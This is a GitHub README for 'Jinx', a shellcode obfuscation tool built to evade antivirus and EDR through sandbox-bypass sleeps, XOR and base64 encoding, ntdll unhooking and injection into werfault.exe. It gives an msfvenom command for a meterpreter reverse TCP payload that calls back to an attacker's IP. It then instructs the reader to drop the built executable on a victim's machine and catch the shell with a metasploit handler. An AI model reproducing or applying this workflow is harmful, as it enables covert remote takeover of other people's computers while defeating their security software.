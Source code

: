 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Installation and use
Jinx requires [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:
```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Credits
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
